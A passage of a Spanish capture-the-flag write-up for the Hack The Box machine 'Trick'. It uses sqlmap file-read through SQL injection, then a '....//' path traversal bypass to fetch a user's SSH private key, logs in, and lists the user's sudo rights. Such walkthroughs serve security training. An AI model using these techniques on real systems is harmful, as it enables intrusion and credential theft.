 ```powershell
listen 80;
listen [::]:80;

server_name preprod-payroll.trick.htb;

root /var/www/payroll;
index index.php;

location / {
try_files $uri $uri/ =404;
}

location ~ \.php$ {
include snippets/fastcgi-php.conf;
fastcgi_pass unix:/run/php/php7.3-fpm.sock;
}
}
```

vemos que el servidor de <i>preprod-marketing.trick.htb</i> esta bajo el directorio <i>/var/www/market/index.php</i>, hacemos el ultimo escan.

```powershell
root@loe# sqlmap -r trick_burp_nginx_FILE.req --batch --dbms mysql --threads 10 --file-read=/var/www/market/index.php
...
root@loe# cat /root/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_var_www_market_index.php
<?php
$file = $_GET['page'];

if(!isset($file) || ($file=="index.php")) {
include("/var/www/market/home.html");
}
else{
include("/var/www/market/".str_replace("../","",$file));
}
```

este script es el que buscabamos la variable <i>page</i> que es sensible a <i>Path Traversal Attack</i>, vemos que en la penultima linea
reemplaza '../' con espacio vacio asi que simplemente pondremos <i>http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//home/michael/.ssh/id_rsa</i>,
lo descargamos e ingresamos por ssh.

```powershell
ssh -i id_rsa michael@10.10.11.166
Linux trick 4.19.0-20-amd64 #1 SMP Debian 4.19.235-1 (2022-03-17) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
michael@trick:~$ whoami
michael
michael@trick:~$ sudo -l
Matching Defaults entries for michael on trick:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
(root) NOPASSWD: /etc/init.d/fail2ban restart
michael@trick:~$
```
